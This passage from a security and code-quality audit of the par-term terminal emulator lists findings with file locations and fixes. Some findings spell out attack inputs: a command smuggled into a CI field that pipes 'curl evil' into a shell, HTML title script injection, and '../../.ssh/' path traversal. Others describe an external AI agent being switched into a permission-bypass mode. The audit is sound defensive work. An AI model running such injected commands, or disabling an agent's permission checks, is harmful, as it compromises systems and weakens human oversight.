  The `SAFETY` comment (`par-term-mcp/src/lib.rs:688-694`) argues safety from *key uniqueness* — irrelevant.
  `setenv` mutates the process-wide `environ` array and races any concurrent `getenv` on **any** key; on glibc
  it can `realloc` `environ`, so a concurrent reader touches freed memory. Real concurrent readers exist in
  the same binary: `resolve_ipc_path()` (`par-term-mcp/src/ipc.rs:107`) reads `std::env::var` at `:109` and
  `dirs::home_dir()` at `:118`. `ci.yml:80` runs `cargo test --workspace` with no `--test-threads=1`.
  Verified: **no `serial_test` dependency and no global env mutex anywhere in the workspace.** `set_var` is
  **not** in the root `par-term` lib test binary, so it never could have explained the SIGSEGV there — and it
  no longer needs to, since `eff2b1e6` found and Miri-proved that cause. What remains is a genuine UB and
  flakiness risk in `par-term-mcp`'s and the `config` integration binary's tests, both of which
  `cargo test --workspace` runs. *Remedy*: add `serial_test` and mark these `#[serial]`, or refactor to take
  an explicit path parameter (the approach `979ecd11` already took for the config half); correct the
  comments. **Merged finding** — Security and Code Quality reported this independently.
- **[SEC-008] `SECURITY.md` has drifted from the implementation in three places.** `:132` says the scripting
  protocol's `WriteText`/`RunCommand` are "currently unimplemented" and "a security model will be defined
  before implementation" — but `RunCommand` spawns processes at
  `src/app/window_manager/scripting/mod.rs:385-389`. `:114` says MCP IPC file permissions "are set by the
  operating system defaults rather than explicitly restricted by par-term" — but `par-term-mcp/src/ipc.rs:23-31`
  creates them with `mode(0o600)` atomically. `:128` frames the `/tmp` WGSL dump as a safe inspection aid. A
  policy that understates capability and overstates weakness misleads users making trust decisions. *Remedy*:
  correct all three — run **after** SEC-006 and SEC-013, which change what the correct text is.
- **[SEC-009] Remote OSC 0/2 window title injected unescaped into HTML session logs.**
  `src/session_logger/format_writers.rs:50`, `:70` — `<title>{}</title>` with no escaping, while the log
  *body* is correctly escaped at `src/session_logger/core.rs:462`. Title flows from
  `src/tab/profile_tracking.rs:61` → `:86` → `:117` → `src/tab/session_logging.rs:52-56`. A remote host sets
  its title to `</title>`; the script runs when the user opens the log in a browser.
  Narrowed because the header is written at `start()`, so the injectable path is a manual/hotkey start after
  the title is set. *Remedy*: apply the existing `html_escape` to the title.
- **[SEC-010] OSC 1337 download filename never reduced to a basename.**
  `src/app/file_transfers/mod.rs:322-333` — `rfd::FileDialog::new().set_file_name(&pending.filename)` takes
  the remote-supplied name verbatim; rfd joins it onto the directory URL, so `../../.ssh/` traverses and an
  absolute name replaces the directory outright. Amplified at `:390-399`, where `DownloadSaveLocation::Cwd`
  uses the OSC-7-controlled `shell_integration_cwd()` as the base — the remote controls both halves. Held at
  Medium because `save_file()` is the only sink and there is no auto-save option, so the user must confirm a
  native dialog. *Remedy*: reduce to `Path::file_name()` before `set_file_name`, as
  `src/app/file_transfers/upload.rs:39-42` already does.
- **[SEC-011] Unpinned third-party action in the crates.io publish job.**
  `.github/workflows/publish-crates.yml:61` — `uses: dtolnay/rust-toolchain@master`, a floating branch in the
  job holding `CARGO_REGISTRY_TOKEN` (`:107`, used `:144`). An **outlier, not the norm**: all 12 other
  invocations pin SHA `f133eefe930d61f0d9371efd474daf0125ed3dd1`. A push to that upstream branch executes in a
  token-bearing job and can publish malicious crates. *Remedy*: use the same pinned SHA.
- **[SEC-012] Unquoted dispatch input interpolated into a shell command.**
  `.github/workflows/ci-linux.yml:85-89`, `ci-windows.yml:94-98` — `cargo test ${{ inputs.test_args }} $threads`.
  `${{ }}` is substituted before the shell parses, so `--workspace; curl evil|sh` executes. Requires
  `workflow_dispatch` (repo write), so it is a privilege-boundary hygiene issue, not fork-reachable.
  *Remedy*: pass via `env:` and reference `"$TEST_ARGS"`.
- **[SEC-013] Scripting `WriteText` bypasses the denylist, and `ScriptConfig` has no confirmation field.**
  `par-term-scripting/src/protocol.rs:243-251` strips only ESC-initiated sequences, passing printable
  characters and newlines through — so a script can type a command plus `\n` into the PTY with no
  `check_command_denylist` on that path (`scripting/mod.rs:266-296`). Meanwhile
  `par-term-config/src/automation.rs:384` names `prompt_before_run: true` as "the recommended and default
  setting" for real protection, but `par-term-config/src/scripting.rs:10-86` has no such field at all — the
  compensating control the denylist docs point to does not exist here. Gated by opt-in `allow_write_text`
  (default false). *Remedy*: add a confirmation field to `ScriptConfig`, or route `WriteText` payloads through
  the denylist.
- **[SEC-014] `auto_approve` puts the external agent into `bypassPermissions` mode.**
  `src/app/window_state/impl_agent.rs:295` — `if auto_approve && let Err(e) = agent.set_mode("bypassPermissions")`.
  par-term actively escalates the agent's *own* internal permission model, so the agent stops prompting for
  its own tool uses too. Compounds SEC-001. *Remedy*: decouple par-term's auto-approve from instructing the
  agent to disable its own safeguards.
- **[SEC-015] No secret-scanning gate.** `.pre-commit-config.yaml`, `.gitleaks.toml`, `.secrets.baseline` all
  absent; no `gitleaks`/`trufflehog`/`detect-private-key` in `.github/`. **No committed secrets were found** —
  working tree, 1,484 ref-reachable commits, and 427 dangling blobs all checked clean; the single
  `BEGIN RSA PRIVATE KEY` history hit (`ac5d0c07`) is documentation prose. But nothing prevents the next
  credential commit. *Remedy*: add `.pre-commit-config.yaml` with `gitleaks` + `detect-private-key` and a
  `make pre-commit` hook target.

### Code Quality

- **[QA-017] Six sites act on an arbitrary `HashMap` window instead of the focused one.** `WindowManager.windows`
  is `HashMap<WindowId, WindowState>` (`src/app/window_manager/mod.rs:67`) with unspecified iteration order,
  while `get_focused_window_id()` exists at `mod.rs:159` and is used correctly elsewhere. Sites:
  `src/app/window_manager/cli_timer.rs:89` (screenshot, comment "Get the first window"), `cli_timer.rs:54`
  (`send_command_to_shell` — a CLI command reaching the wrong shell),
  `src/app/handler/app_handler_impl.rs:369` (promotes an arbitrary window's config into global `self.config`),
  `app_handler_impl.rs:406`, `src/app/window_manager/settings_actions.rs:126,132`,
  `src/app/window_manager/config_propagation.rs:263`. The two `cli_timer` sites are reached only from the
  startup timer when usually one window exists — hence Medium. *Remedy*: use `get_focused_window_id()`.
- **[QA-018] `thread::sleep(50ms)` inside `Pane::drop` on ordinary close.** `src/pane/types/pane.rs:405`. The
  `shutdown_fast` early-return at `:380` does not cover it, and `shutdown_fast` is `false` in all four
  constructors (`:151,218,267,318`). Manual close and default auto-close-on-shell-exit both loop over exited
  panes sequentially inside one `RedrawRequested`, so closing a 6-pane split adds 300ms+ to a single frame.
  *Remedy*: replace the fixed sleep with a join or bounded wait on the refresh task.
- **[QA-019] Font-size change rebuilds the renderer via `block_on`, enumerating system fonts twice.**
  `src/app/window_state/renderer_ops.rs:53-55`. `Renderer::new` builds one `FontManager` for metrics and
  discards it; `CellRenderer::new` builds a second — each doing `Database::new()` + `load_system_fonts()`.
  Reached from everyday zoom keybindings, menu items, and scroll-wheel zoom. *Remedy*: reuse the metrics
  `FontManager`; wrap in `spawn_blocking`.
- **[QA-020] `timeout_secs` parsed then silently discarded for workflow shell steps.**
  `src/app/input_events/snippet_actions/workflow.rs:68-79` runs `Command::new(..).output()` synchronously on
  the main thread with `timeout_secs: _` destructured away, while the sibling standalone path
  (`shell_command.rs:54-163`) implements a correct poll/kill timeout loop. A hung command freezes the UI
  indefinitely. *Remedy*: reuse the `shell_command.rs` pattern.
- **[QA-021] Five `ARC-009` header comments state stale line counts, so the early-warning mechanism is dead.**
  Each claims "(limit: 800 — approaching threshold)" but understates:
  `par-term-render/src/renderer/mod.rs:1` says 743, actual **798**; `renderer/rendering.rs:1` says 705, actual
  **796**; `graphics_renderer.rs:1` says 726, actual **771**; `cell_renderer/mod.rs:1` says 742, actual
  **766**; `cell_renderer/background.rs:1` says 693, actual **701**. `renderer/mod.rs` is two lines under
  threshold while advertising 55 lines of headroom. *Remedy*: delete the hand-maintained counts, keep the
  extraction plans, enforce via a CI line-count check (ENH-009).
- **[QA-022] `parse_shader_controls` is a 655-line single function (complexity 71).** — **deferred.**
  `par-term-config/src/shader_controls.rs` (now split into `shader_controls/`), zero nested functions — the worst long method in the
  repo. Helpers already exist at `:126-342`; the body is one per-line branch ladder that should delegate per
  control kind. *Deferred* with ARC-009. Tracked as ENH-009.
- **[QA-023] Persistence layer triplicated, production and tests.** Identical five-function shape at
  `src/profile/storage.rs:10,15,20,64,69`, `src/arrangements/storage.rs:11,16,21,71,76`,
  `src/session/storage.rs:11,16,21,65,70`, with test bodies triplicated too (same four test names in all
  three). A generic `load_yaml_or_default<T>`/`save_yaml_atomic<T>` collapses ~290 production and ~350 test
  lines **and fixes QA-010 and SEC-021 in one place**. *Remedy*: extract the generic pair; the helper must set
  mode 0600.
- **[QA-024] `DebugState.cache_hit` is a load-bearing render control flag inside a telemetry struct.**
  `src/app/window_state/debug_state.rs:17`. The struct doc at `:4-8` says "Timing metrics and FPS overlay
  state… toggled with F3," but the field drives behavior: written as control at
  `src/app/render_pipeline/gather_phases.rs:221`, read as control at `renderer_ops.rs:96` (gates
  `update_cells`), `gather_phases.rs:184` (gates URL detection), `gather_phases.rs:243` (gates cache flush),
  `gather_data.rs:125`. Gating `DebugState` behind a debug feature or removing the FPS overlay would silently
  break rendering. Related: `cache_hit = false` at `gather_phases.rs:221` forces `flush_cell_cache` to run
  `Arc::new(cells.to_vec())` (`:259`) every frame the search overlay is open — a second full-grid clone, same
  cause family as QA-002. *Remedy*: move to a `FrameState`/`RenderDecisions` struct; fix with QA-002.
- **[QA-025] `pane_manager: Option<PaneManager>` contradicts its own always-`Some` invariant, paid for with 10
  identical `expect`s.** `src/tab/mod.rs:89` declares the `Option`, but invariant R-32 says always `Some` —
  documented at `src/tab/pane_accessors.rs:3` and `src/pane/manager/mod.rs:95`, asserted at
  `src/app/handler/window_state_impl/shell_exit.rs:24,41`, satisfied by all three constructors
  (`src/tab/constructors.rs:220,451,497`). Bridged by ten copies of
  `.expect("Tab must always have a pane_manager with a focused pane (R-32)")` at
  `src/tab/pane_accessors.rs:28,39,57,67,77,87,97,107,117,127`. *Remedy*: make the field non-`Option`; all ten
  expects vanish and the invariant becomes compiler-enforced.
- **[QA-026] File-transfer failure notification fires outside the lock gate, causing repeat spam.**
  `src/app/file_transfers/mod.rs:184-193`, in `check_file_transfers()` (called every `about_to_wait()`).
  `deliver_notification(...)` and the `last_completion_time` update sit outside the
  `if let Ok(term) = terminal_arc.try_read()` guarding `take_completed_transfer`. Under contention the take is
  skipped, the record persists, and the next poll re-notifies. *Remedy*: move both statements inside the `Ok`
  branch.
- **[QA-027] `#[allow(unreachable_patterns)]` converts a future compile error into a silent wrong color.**
  `par-term-terminal/src/terminal/rendering.rs:385` (fg), `:412` (bg), inside `convert_term_cell_with_theme`
  (`:346`, complexity 47). Each match enumerates all 16 `NamedColor` variants then adds
  `_ => theme.foreground`/`theme.background`. Verified upstream: `par-term-emu-core-rust-0.45.0/src/color.rs`
  `NamedColor` has exactly 16 variants, so `_` is unreachable today and the allow exists only to silence that.
  But the dependency floats on `version = "0.45"` (`Cargo.toml:12`) — a new variant becomes reachable, stays
  silenced, and renders as theme foreground. *Remedy*: drop the `_` arm and the allow so a new variant is a
  compile error.
- **[QA-028] Unbounded channels with no backpressure.** `par-term-acp/src/jsonrpc.rs:131`
  (`mpsc::unbounded_channel::<IncomingMessage>()`, fed by agent subprocess stdout),
  `src/app/window_state/impl_agent.rs:218`, `src/profile/dynamic/manager.rs:64`, plus `std::sync::mpsc::channel()`
  (also unbounded) at `src/app/window_manager/mod.rs:132` and `src/platform/notify.rs:225`. A verbose or
  runaway agent grows the queue without bound; combined with QA-012's rendering-gated drain, it only grows
  while unfocused. *Remedy*: scope **after** QA-012, whose fix is also this one's mitigation.
- **[QA-029] `logs_dir()` returns `PathBuf`, so mkdir failure is unobservable.**
  `par-term-config/src/config/persistence.rs:236-243` warns on `create_dir_all` failure then returns the path
  anyway. Session logging — a documented feature — silently no-ops with only a `warn!` line. *Remedy*: return
  `Result<PathBuf, io::Error>`. Sequence **after** QA-023, which extracts from the same file.
- **[QA-030] Session-logger writes discarded on every PTY chunk.** `src/session_logger/core.rs:456,464`
  (`let _ = writer.write_all(..)` for Plain and Html). `is_active()` reflects only an internal flag, not
  writer health, so the UI claims logging is active while the transcript silently truncates (disk full, log
  file deleted mid-session). *Remedy*: track writer health and surface failure.
- **[QA-031] Startup shader-load failure is only `log::info!`, inconsistent with the runtime path.**
  `par-term-render/src/renderer/shaders/background.rs:100-108` and `cursor.rs:83-91`, called from
  `Renderer::new` (`renderer/mod.rs:418,442`). A broken shader silently degrades to an unshaded terminal with
  no UI diagnostic, while the runtime reload path in the same files correctly propagates to
  `settings_window.set_shader_error(..)`. Same failure, inconsistently surfaced by timing. *Remedy*: propagate
  startup failures to the same `set_shader_error` sink.
- **[QA-032] `command_history` clears `dirty` before a spawn whose `Result` is discarded.**
  `src/command_history.rs:118-120`. The sole caller is `WindowState::drop`
  (`src/app/window_state/impl_helpers.rs:273`), so a shutdown-time spawn failure under resource pressure
  silently loses the session's history with no retry path — `dirty` is already false. *Remedy*: clear `dirty`
  only after a confirmed successful write.

### Documentation

- **[DOC-012] Two documented config values are silently ignored rather than rejected.**
  `docs/CONFIG_REFERENCE.md` documents `ai_inspector_default_scope` and `ai_inspector_view_mode` values that
  do not match the real enums; these deserialize into the default instead of erroring, so the user gets no
  feedback at all — harder to diagnose than DOC-001's hard failure.
- **[DOC-013] `docs/CONFIG_REFERENCE.md:102-105` renders as literal text, not a table.** The table ends at
  `:98`; a blank line and a `> **v0.30.0:**` blockquote follow at `:99-101`; then `:102-105` are orphaned body
  rows with no header and no `|---|` separator. Four font-rendering options (`font_antialias`, `font_hinting`,
  `font_thin_strokes`, `minimum_contrast`) are unreadable on GitHub.
- **[DOC-014] `CONTRIBUTING.md` contradicts the code and CLAUDE.md on workspace structure.** `:367` says "14
  sub-crates plus the root application crate", but `Cargo.toml:2` lists **13** and CONTRIBUTING's own layer
  table (`:373-377`) sums to 13; `docs/architecture/CRATE_STRUCTURE.md:28` correctly says 13. Separately
  `:374` claims `par-term-config` "depends only on external `par-term-emu-core-rust`", but
  `grep -c 'par-term-emu-core-rust' par-term-config/Cargo.toml` returns **0**; `CLAUDE.md:163` is correct.
- **[DOC-015] `make checkall` is documented as formatting code; it only checks.** `Makefile:213` is
  `checkall: fmt-check lint typecheck test`, but CLAUDE.md describes it as "Format, lint, typecheck, and
  test", so a developer expecting files to be formatted instead gets an `fmt-check` failure.
- **[DOC-016] Five genuinely broken internal anchors.** `docs/features/SHADERS.md:12,14,15,17` use single
  hyphens (`#terminal-aware-productivity`) where headings containing `&` at `:29,61,88,108` generate doubles
  (`#terminal-aware--productivity`); `docs/architecture/ARCHITECTURE.md:13` links `#tmux-integration` but the
  heading at `:259` generates `#tmux-integration-par-term-tmux`. ⚠️ The many `--` anchors elsewhere in the
  repo are **valid** and must not be "fixed".
- **[DOC-017] README's "What's New" table-of-contents entry points two releases back.** `README.md:19` is
  `- [What's New](#whats-new-in-0351)`. The anchor still resolves (the 0.35.1 section survives at `:75`), so
  no checker flags it, but the front page's ToC jumps past 0.37.1, 0.37.0, 0.36.0, and 0.35.2 — exactly the
  failure `CONTRIBUTING.md:472` warns about.
- **[DOC-018] CLAUDE.md's file map overstates `src/tab_bar_ui/`.** `:121` says "(11 subdirs)"; the directory
  has **9 files and 0 subdirectories**. Relatedly `:208` points at "`input_events.rs`" but the function lives
  at `src/app/input_events/keybinding_actions.rs:21` and no `src/input_events.rs` exists. Every other path in
  the file map resolves (all 38 checked).
- **[DOC-019] README undercounts paste transforms.** `README.md:182` says "28 clipboard transformations"; the
  real count is **29**, confirmed twice (`PasteTransform` enum variants and the `all()` list in
  `src/paste_transform/mod.rs`). `docs/README.md:26` and `docs/features/PASTE_SPECIAL.md:3` correctly say 29.
- **[DOC-020] Three code doc comments state defaults the code contradicts.**
  `par-term-config/src/config/config_struct/window_config.rs:45` says "Default: 10" vs
  `par-term-config/src/defaults/font.rs:35` returning `8`; `config_struct/mod.rs:328` marks `fit` as the
  background-image default vs `types/rendering.rs:110-111` `#[default] Stretch`; `config_struct/mod.rs:1395`
  marks `bottom` as the progress-bar default vs `types/integration.rs:144-145` `#[default] Top`.
- **[DOC-021] `API.md` documents YAML parsing as TOML and names the wrong parameter.** `docs/API.md:165` says
  "Parse TOML metadata for a background shader", but `par-term-config/src/shader_metadata/parsing.rs:56` takes
  `source: &str` and `:59` calls `serde_yaml_ng::from_str`. A case-insensitive grep for `toml` across the whole
  `shader_metadata` module returns **0**. Affects `:149`, `:152`, `:165`, `:166`; path-taking variants exist
  under different names (`parse_shader_metadata_from_file`).
- **[DOC-022] No link validation or doc-drift check exists anywhere.** The 8 workflows in `.github/workflows/`
  and the Makefile contain no `lychee`, `markdownlint`, or link-check step, and no test in `tests/` references
  any `.md` file — while `docs/DOCUMENTATION_STYLE_GUIDE.md:553` recommends "Link validation" as an automated
  check. **This absence is the root enabler of DOC-002, DOC-003, and DOC-016**, and the only finding here that
  prevents recurrence rather than fixing a symptom. *Remedy*: add a link-check job; land it **before or with**
  DOC-002/003/016.
- **[DOC-023] The Migration Guide is unreachable from the README.** `grep -c MIGRATION README.md` returns
  **0**. `docs/guides/MIGRATION.md` is well maintained — including an `Unreleased` entry for the macOS
  config-directory move users are about to hit — but is linked only from `docs/README.md:80` and is absent from
  CLAUDE.md's Docs Reference table.
- **[DOC-024] Undocumented user-facing environment variables.** Several variables the code reads are missing
  from `docs/guides/ENVIRONMENT_VARIABLES.md`, and the doc misclassifies `TERM`/`COLORTERM` as inherited when
  they are force-overridden for child processes.

---

## 🔵 Low Priority / Improvements

### Architecture
- **[ARC-011]** `url = "2"` declared twice outside `[workspace.dependencies]` (`Cargo.toml:213`,
  `par-term-update/Cargo.toml:23`), against the root manifest's own stated policy ("Centralise all external
  deps shared across 2+ crates here"). Every other shared dep (56) follows the rule. Version-skew risk on a
  dep used in security-relevant URL parsing in both consumers. *Remedy*: add to `[workspace.dependencies]`,
  switch both to `url.workspace = true`.
- **[ARC-012]** CLAUDE.md's Layer 2 description understates real dependency edges (`CLAUDE.md:165`).
  `par-term-terminal`, `par-term-tmux`, and `par-term-scripting` each also depend on external
  `par-term-emu-core-rust`, and the Layer 3 entry for `par-term-render` omits its edge too. **The actual Cargo
  graph is correct** — all 14 manifests verified, no cycle, no upward dependency, no layer inversion. Only the
  prose is wrong.
- **[ARC-013]** The single-rendering-path invariant is enforced only by a doc comment
  (`par-term-render/src/cell_renderer/instance_buffers.rs:84-88`), whose text is also wrong — it says the
  builder serves the shader path when it serves screenshots (QA-011), and it names "`pane_render.rs`" when the
  path is the directory `pane_render/mod.rs`. *Remedy*: after QA-011 deletes the second builder this becomes
  moot; if it survives, add a test asserting the single call site.

### Security
- **[SEC-016]** Debug log can be pre-created by another local user — `src/debug.rs:139` chmods 0o600 *after*
  open, by path. On multi-user Linux an attacker pre-creates the file mode 0666, owns it, the chmod fails
  silently (`let _ =`), and they read all debug output. Otherwise well hardened (symlink removal `:102-108`,
  `O_NOFOLLOW` `:122`). *Remedy*: `.mode(0o600)` at creation — the pattern exists at `par-term-mcp/src/ipc.rs:29`.
- **[SEC-017]** `FontData` exposes a `'static` self-reference as a public field —
  `par-term-fonts/src/font_manager/types.rs:16` (`pub font_ref: FontRef<'static>`) laundered via `transmute`
  at `:58`, on a `pub` struct re-exported at `par-term-fonts/src/lib.rs:24`. `FontRef` is `Copy`, so a
  consumer can hold a dangling ref past drop. **No in-tree trigger exists** (`FontManager` is constructed once
  with no in-place replacement), so this is unsound public API, not a demonstrated defect — and explicitly
  **not** a SIGSEGV candidate.
- **[SEC-018]** Two `SAFETY` comments state the wrong invariant —
  `par-term-fonts/src/font_manager/loader.rs:61` and `src/font_metrics.rs:68` both claim
  `make_shared_face_data` "is safe when called with a valid ID from query()"; its actual contract concerns the
  mmap'd font file not being mutated externally. Both callers immediately `.to_vec()`, narrowing the window.
- **[SEC-019]** OSC 52 clipboard writes enabled by default — `par-term-config/src/defaults/terminal.rs:61-63`
  returns `true`, letting a remote program stage the local clipboard, while `SECURITY.md:118-122` acknowledges
  paste does not sanitize control characters. Standard terminal behavior with a toggle, but the composition is
  worth documenting.
- **[SEC-020]** Config import fetches over any scheme with no size cap —
  `par-term-settings-ui/src/advanced_tab/import_export.rs:211`, inconsistent with the two other network paths
  that enforce HTTPS.
- **[SEC-021]** `arrangements.yaml` written without 0o600 — `src/arrangements/storage.rs:87`, while sessions
  use 0o600 (`src/session/storage.rs:33-46`); both hold working-directory paths. **Satisfied by QA-023** if
  the extracted helper sets mode 0600 — do not fix separately.
- **[SEC-022]** Shader create dialog accepts `..` in a name —
  `par-term-settings-ui/src/shader_dialogs.rs:70`; local intent, template content only.
- **[SEC-023]** `Ilshidur/action-discord@0.4.0` pinned to a movable tag in secret-bearing steps
  (`publish-crates.yml:201`, `release.yml:508`).
- **[SEC-024]** Tap token persisted into `.git/config` — `publish-homebrew-cask-core.yml:113-114` clones with
  the credential in the URL.
- **[SEC-025]** Release workflow ignores test failures — **five sites, not one**: `continue-on-error: true` on
  `cargo test --workspace --verbose` at `.github/workflows/release.yml:97, 147, 192, 236, 319` (one per build
  job). A release can ship with a red suite on every platform. Re-verified as still present after
  `eb97890b`, which fixed the *publish ordering* on that workflow but left these untouched — so the board's
  release-ordering item does **not** cover this.
- **[SEC-026]** `Makefile:472` tells developers to `bash /tmp/test_par_term_graphics.sh`, a world-writable
  path nothing in-repo creates.
- **[SEC-027]** *(informational)* `run-steps.sh:100-101` runs `claude --dangerously-skip-permissions`
  unattended in a loop — deliberate developer automation, recorded only so its presence is known. Not a defect
  to fix.

### Code Quality
- **[QA-033]** Test-quality defects. (a) `tests/snippets_tests.rs:687-731` reimplements the dedup algorithm
  inline instead of calling `import_snippets` (`par-term-settings-ui/src/snippets_tab/io.rs:40`), leaving the
  real function's keybinding-conflict clearing at `io.rs:66-69` with **zero coverage** while appearing to
  validate import. (b) Names overstate coverage at `tests/profiles/profile_modal_tests.rs:349-370,372-382,384-395`
  — each promises delete/pending-delete behavior but asserts only `modal.visible`; the comment at `:362-363`
  concedes the real state is private. (c) `:186-200` only checks `!debug_str.is_empty()`; `:118-134` and
  `:713-730` construct an enum variant and match it against itself. (d) Sixteen near-duplicate single-assert
  alias tests at `par-term-keybindings/tests/keybinding_integration_tests.rs:165-201,207-265`, while the same
  file already uses table-driven form at `:301-328,466-482`.
- **[QA-034]** `#[allow(...)]` justification inconsistent — 35 total, most with a reason; these lack one while
  same-lint neighbours have it: `src/app/window_state/notifications.rs:170` (`too_many_arguments` on a 9-param
  fn, while `src/app/triggers/mod.rs:659` and `snippet_actions/split_pane.rs:11` both explain it),
  `par-term-render/src/renderer/graphics.rs:463`, `src/app/render_pipeline/gpu_submit.rs:47`,
  `renderer_ops.rs:87`, `par-term-mcp/src/ipc.rs:46`, `src/url_detection/mod.rs:24`,
  `par-term-config/src/lib.rs:307,309`. ⚠️ The `#[cfg_attr(..., allow(dead_code))]` at `src/menu/mod.rs:42` is
  the board's tracked deliberate silencer — **not** a defect.
- **[QA-035]** `#[ignore]` reason style inconsistent — `src/tab/manager.rs:546` uses the proper
  `#[ignore = "requires PTY spawn"]` that cargo prints; ten others use `#[ignore] // comment`, invisible in
  test output (`tests/terminal_tests.rs:45,54,63,82,149,163`;
  `tests/tabs/tab_stability_tests.rs:415,426,436,446`). Zero bare unexplained ignores — style only.
- **[QA-036]** CLAUDE.md contradicts `src/debug.rs` about logging — **orchestrator-verified, and the false
  claim appears at TWO sites**: `CLAUDE.md:60` ("Do NOT use `log::info!()` etc. — they won't appear in the
  debug log") and `CLAUDE.md:239` ("`log::info!()` etc. go to stdout, NOT the debug log"). Both are false:
  `src/debug.rs:253` defines `LogCrateBridge`, `:308`
  implements `log::Log` for it, installed at `src/main.rs:45`, defaulting to `LevelFilter::Info` when
  `RUST_LOG` is unset (`:281-283`); `debug.rs:3-48` documents the dual system as deliberate. **The ~1,000
  `log::` call sites are correct usage, not defects** — only `log::debug!`/`trace!` need `RUST_LOG`, and
  sub-crates *must* use `log::` because `crate::debug_info!` resolves to their own root. *Remedy*: fix the doc;
  do not convert call sites.
- **[QA-037]** Unbounded `git` subprocess on the main thread —
  `src/app/input_events/snippet_actions/workflow.rs:268-277` and `par-term-config/src/snippets.rs:1004-1024`
  call `git rev-parse` with no timeout on the keybinding path; sub-millisecond normally, unbounded with a
  network-mounted `.git` or a stale lock.
- **[QA-038]** Unbounded `tmux list-sessions` on the main thread — `src/tmux_session_picker_ui.rs:104`, in the
  egui closure on first show and Refresh.
- **[QA-039]** Silent theme fallback — `par-term-config/src/config/theme_methods.rs:91`
  `Theme::by_name(&self.theme).unwrap_or_default()`; a misspelled `theme:` silently becomes `default_dark`
  with no log line, unlike every other fallback in the crate.
- **[QA-040]** Latent quote-injection in five tmux command builders — `par-term-tmux/src/commands.rs:49`
  (`attach_session`), `:55` (`new_session`), `:62` (`kill_session`), `:79` (`new_window`), `:96`
  (`rename_window`) interpolate arguments raw inside single-quoted tmux strings, unlike
  `send_keys`/`send_literal`/`set_buffer` which apply the `'\''` escape idiom. Confirmed none of the five is
  called outside tests today — a latent public-API defect, not a live bug.

### Documentation
- **[DOC-025]** 83 rustdoc warnings and no `missing_docs` lint anywhere. `cargo doc --no-deps --workspace`
  succeeds but emits 83 warnings (`par-term` 26, config 17, settings-ui 15, acp 9, render 5; clean: fonts,
  mcp, tmux). **64 of 83 are one systemic pattern**: module-level `//!` docs linking siblings declared private
  — e.g. `src/tab_bar_ui/mod.rs:10` (`//! - [\`drag_drop\`]`) against `:17` (`mod drag_drop;`, no `pub`). A
  one-line-per-module fix clears most. Zero of 13 sub-crates enable `#![warn(missing_docs)]`, though all 13
  have crate-level `//!` docs. Also `par-term-config/src/config/keybindings_methods.rs:81` writes
  `"snippet:<id>"` unbackticked, producing an "unclosed HTML tag" warning.
- **[DOC-026]** `# Errors`/`# Panics` sections essentially absent — 9 `# Errors` against 142 public
  `Result`-returning functions (~6%), and zero `# Panics`. Clean on the riskiest axis though: **no `unsafe fn`
  exists in the workspace**, and the only two `unsafe impl` (`src/platform/notify_macos.rs:100,103`) are on a
  private struct and already carry `// SAFETY:` justifications.
- **[DOC-027]** `CONTRIBUTING.md`'s Related Documentation has stale link *text* — `:480,482,484,485,487`
  display `docs/ARCHITECTURE.md` etc. while the targets are correctly `docs/architecture/…`. The inverse of
  DOC-002: targets migrated, labels left behind. Links work; text misleads.
- **[DOC-028]** `MATRIX.md` stale, unstamped, and unindexed — `:92` claims "49+ shaders" (real: 73). The
  1,134-line iTerm2 comparison has no "as of version" marker, and neither it nor `ideas.md` appears in README,
  `docs/README.md`, or CLAUDE.md's table.
- **[DOC-029]** Style-guide violations — `docs/DOCUMENTATION_STYLE_GUIDE.md:206` forbids line numbers in
  durable docs; `docs/features/MOUSE_FEATURES.md:173` and `docs/features/SEMANTIC_HISTORY.md:83,248` use them
  (arguably justified as illustrative semantic-history examples).
- **[DOC-030]** README accumulates release notes — 9 `## What's New` sections span `README.md:44-122` (79
  lines, ~16% of the file), each ending by pointing at CHANGELOG.md. This duplication is what makes DOC-017's
  ToC anchor go stale each release.
- **[DOC-031]** `docs/guides/MIGRATION.md` ToC ordering inconsistent — `:7-15` runs Unreleased, v0.31.0, then
  *ascends* v0.20.0 → v0.27.0.
- **[DOC-032]** `API.md` minor drift — `par-term-scripting` types (`:421-423`) are only reachable via
  submodules (`manager::ScriptManager`) since its `lib.rs` has no re-exports; `UpdateCheckResult` is listed in
  two crate sections as if one type; the `par-term-config` `prelude` module is never indexed.

---

## Detailed Findings

Per-issue execution detail — exact files, ordered steps, method rationale, and verification commands — lives
in **`AUDIT-REMEDIATION-PLAN.md`**, written alongside this report and consumed by `/fix-audit`. The severity
sections above carry each finding's full description, impact, and remedy; the sections below record only
domain-level assessments that do not belong to a single issue.

### Architecture & Design

**Health: Good.** 13 sub-crates plus the root app, no cycles, no upward dependencies, no layer inversion —
all 14 manifests verified. Two prior-cycle findings genuinely landed rather than being marked done: ARC-001's
centralised `[workspace.dependencies]` (56 deps) and ARC-003's removal of `wgpu` from the pure-data
`par-term-config`, which even left an explanatory `NOTE(ARC-003)` in the manifest. External dependency counts
are proportionate: 2–7 for leaf crates, 62 only at the root.

The structural debt is concentrated and legible: three god objects mid-decomposition, one abandoned crate
extraction (ARC-001), and a per-pane GPU submit pattern that caps split-pane scalability (ARC-004). The
decomposition *pattern* is established in all three god-object cases — 14 sub-config structs already exist
beside `Config`, 12 sub-state bundles already exist beside `WindowState` — so the remaining work is
continuation, not design.

### Security Assessment

**Posture: Fair.** This rating reflects two specific gaps against an otherwise strong baseline, not weak
security work. Controls that exist are exemplary: numbered remediations (SEC-002/003/005/006/007/009/010,
QA-012), an honest threat model in `SECURITY.md`, accurate dependency triage in `deny.toml`, constant-time
auth comparison, atomic 0600 IPC files, zip-slip blocked in two subsystems, a 48-entry credential-redaction
table for session logs, a 30-entry default-deny env-var allowlist with tests asserting `AWS_SECRET_ACCESS_KEY`
is blocked, and TLS never weakened anywhere (`danger_accept_invalid_certs` appears nowhere in the repo).

Both Criticals are the same shape: remote input reaches command execution *without* the defense the project
applies correctly elsewhere. SEC-001's containment check exists and is not called; SEC-002's confirmation
gate exists in the trigger subsystem and was never applied to profile auto-switch. Neither requires inventing
a new control — only wiring an existing one.

**Do not re-file**: the two quick-xml advisories (RUSTSEC-2026-0195/0194) are correctly triaged in
`deny.toml` as Linux-build-time-only via `wayland-scanner`, verified with `cargo tree -i quick-xml` (empty on
macOS). Bumping is impossible — `wayland-scanner` pins 0.39.

**Coverage caveat**: one sub-agent covering ACP/MCP never returned and that surface was covered by direct
reads instead — which is how SEC-001 was found. `par-term-acp/src/agent.rs` and `src/acp_harness/`
message-size limits remain the least-deeply-examined area.

### Code Quality

**Health: Fair.** Engineering conventions are genuinely strong — the documented locking discipline is
